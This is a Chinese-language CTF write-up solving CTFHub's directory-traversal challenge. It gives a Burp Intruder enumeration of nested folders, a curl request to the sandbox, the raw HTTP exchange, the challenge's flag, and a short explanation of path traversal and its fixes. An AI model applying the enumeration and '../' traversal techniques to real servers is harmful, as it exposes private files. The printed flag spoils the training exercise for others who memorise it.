

# WP：目录遍历（信息泄露）

## 一、题目信息

- **题目名称**：目录遍历
- **CTFHub 路径**：信息泄露 → 目录遍历
- **考察点**：利用目录遍历 / 目录列表（Directory Listing）访问到 web 根目录之外的敏感文件，找到 flag。
- **靶场地址**：http://challenge-ab9fb67a4237f707.sandbox.ctfhub.com:10800

## 二、解题过程

- **我看到了什么**：开启题目后访问靶场首页，页面提供了文件浏览入口；在 Burp 的 Intruder 中对 `/flag_in_here/` 下的层级序号做遍历/爆破，发现深层路径 `/flag_in_here/3/4/flag.txt`。
- **我做了什么**：直接在 Kali 浏览器或终端请求 `http://challenge-ab9fb67a4237f707.sandbox.ctfhub.com:10800/flag_in_here/3/4/flag.txt`，让服务器把 flag.txt 的纯文本内容返回出来。
- **结果是什么**：响应体直接是 `ctfhub{...}` 形式的 flag（纯文本），提交后平台提示正确。

**思路与可参考的命令（在 Kali 终端 / curl 或浏览器 DevTools 中完成）**：

```bash
# 直接访问被遍历到的 flag 文件
curl http://challenge-ab9fb67a4237f707.sandbox.ctfhub.com:10800/flag_in_here/3/4/flag.txt
```

> 若页面提供目录列表，先在列表中找名字像 `flag`、`flag.txt` 的文件并直接访问；若列表被限制，再用 `../` 遍历。

## 三、关键请求 / 响应

```
GET /flag_in_here/3/4/flag.txt HTTP/1.1
Host: challenge-ab9fb67a4237f707.sandbox.ctfhub.com:10800
User-Agent: curl/8.x
Accept: */*

HTTP/1.1 200 OK
Content-Type: text/plain

ctfhub{b9862f7d2915e44cf8b9457d}
```

flag 提交：ctfhub{b9862f7d2915e44cf8b9457d}

## 四、原理与复盘

目录遍历（Path Traversal）利用 web 应用对文件路径校验不严，通过 `../` 等序列访问 web 根目录之外的文件；若服务器开启了目录列表（Directory Listing），还会直接把目录下的文件列出来，可能泄露备份、源码、配置文件乃至 flag。对应 HTTP 报文位置是 **URL 路径 / 响应体**。修复上应做路径规范化与白名单校验，并关闭不必要的目录列表。

## 五、解题截图


